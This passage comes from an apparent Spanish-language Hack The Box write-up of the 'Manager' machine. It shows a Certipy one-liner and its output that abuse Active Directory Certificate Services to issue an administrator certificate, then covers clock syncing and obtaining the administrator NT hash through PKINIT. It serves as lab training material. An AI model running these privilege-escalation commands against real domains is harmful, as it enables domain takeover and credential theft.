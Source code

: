 Aquí te dejo un ejemplo de cómo funciona el oneliner:
```bash
certipy ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb && certipy ca -ca 'manager-DC01-CA' -issue-request 23 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' && certipy req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 23
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 24
Would you like to save the private key? (y/N) y
[*] Saved private key to 24.key
[-] Failed to request certificate
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 23
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[!] Could not find matching private key. Saving certificate as PEM
[*] Saved certificate to 'administrator.crt'
```
Continuemos.

Antes de aplicar la última parte del ataque, siempre es necesario que nuestra máquina tenga el mismo horario que la máquina víctima, pues así es el funcionamiento del **servicio Kerberos**, ya que si no están sincronizados con el mismo horario, pueden fallar muchos ataques y este en particular.

Para tener el mismo horario, usaremos el comando **ntpdate** y le indicamos el nombre del servidor de la máquina víctima:
```bash
ntpdate -u dc01.manager.htb
2024-10-13 06:04:27.985161 (-0600) +25209.632306 +/- 0.034093 dc01.manager.htb 10.10.11.236 s1 no-leap
CLOCK: time stepped by 25209.632306
```
Ya están sincronizados.

Para que podamos obtener el **hash NT** del certificado del administrador que ya creamos, usaremos el comando **auth**.

Este comando utilizará la extensión **PKINIT Kerberos** o el **protocolo Schannel** para la autenticación con el certificado proporcionado. **Kerberos** se puede utilizar para recuperar un **TGT** y el **hash NT** para el usuario de destino, mientras que **Schannel** abrirá una conexión a **LDAPS** y caerá en un shell interactivo con comandos **LDAP** limitados.
